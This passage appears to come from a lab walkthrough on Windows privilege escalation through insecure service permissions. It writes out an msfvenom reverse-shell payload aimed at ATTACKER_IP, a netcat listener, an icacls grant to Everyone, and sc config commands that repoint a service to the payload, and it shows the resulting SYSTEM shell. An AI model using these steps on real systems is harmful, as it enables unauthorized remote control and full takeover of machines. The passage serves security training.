 Here we can see that the `BUILTIN\\Users` group has the SERVICE\_ALL\_ACCESS permission, which means any user can reconfigure the service.\
Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:\
Kali Linux\
`user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe`

`user@attackerpc$ nc -lvp 4447`

We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:\
Command Prompt\
`C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F`

To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):\
Command Prompt\
`C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem`

Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:\
Command Prompt\
`C:\> sc stop THMService`\
`C:\> sc start THMService`

And we will receive a shell back in our attacker's machine with SYSTEM privileges:\
Kali Linux\
`user@attackerpc$ nc -lvp 4447`\
`Listening on 0.0.0.0 4447`\
`Connection received on 10.10.175.90 50650`\
`Microsoft Windows [Version 10.0.17763.1821]`\
`(c) 2018 Microsoft Corporation. All rights reserved.`

`C:\Windows\system32>whoami`\
`NT AUTHORITY\SYSTEM`
